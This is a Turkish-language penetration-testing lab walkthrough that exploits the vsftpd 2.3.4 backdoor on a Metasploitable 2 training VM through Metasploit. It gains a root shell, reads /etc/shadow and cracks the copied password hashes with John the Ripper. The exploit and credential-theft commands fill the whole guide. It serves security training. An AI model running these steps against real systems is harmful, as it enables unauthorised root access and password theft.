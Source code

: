 ```yaml
---
description: VSFTPD Güvenlik Açığı Kullanılarak Hedef Sisteme Sızılması
---
```


# Penetrasyon Testi Uygulaması

Kali makinede şu adımları gerçekleştirin:

1.Terminal penceresinde msfconsole yazın ve ENTER’a basın.

2.Metasploit konsolunda search vsftpd yazın ve ENTER’a basın.

3.Metasploit konsolunda use exploit/unix/ftp/vsftpd\_234\_backdoor yazın ve ENTER’a basın.

4.show options yazın ve ENTER’a basın.

5.set RHOST 192.168.2.42 yazın ve ENTER’a basın \(Metasploitable 2 IP\).

6.set RPORT 21 yazın ve ENTER’a basın.

7.set LHOST 192.168.2.143 yazın ve ENTER’a basın \(Kali IP\).

8.show payloads yazın ve ENTER’a basın. 

9.Metasploit konsolunda set PAYLOAD cmd/unix/interact yazın ve ENTER’a basın.

10.Metasploit konsolunda exploit yazın ve ENTER’a basın. 

Eğer düzgün bir şekilde çalışıyorsa aşağıdakileri görürsünüz:

•\[+\] Backdoor service has been spawned, handling…

•\[+\] uid=0\(root\) gid=0\(root\)

11.Komut satırında whoami yazın ve ENTER’a basın.

12.Komut satırında pwd yazın ve ENTER’a basın.

13.cat /etc/shadow yazın ENTER’a basın. 

14.Listelenen parola hash’lerini \(karmaları\) kopyalayarak \(CTRL-SHIFT-C veya sağ tıklama ile\) Desktop dizininde bir dosya oluşturup yapıştırın. Dosyayı parola-hashes olarak kaydedebilirsiniz.

15.Terminal ekranında hedef sistemden çıkmak için exit yazın ve ENTER’a basın.

16.Metasploit Framework konsolundan çıkmak için tekrar exit yazın.

17.john /Desktop/parola-hashes komutu ile elde ettiğiniz parola karmalarının parolalarını bulmak için bir John The Ripper taraması başlatın. Tam sonuç elde etmek için en az on dakika beklemelisiniz.

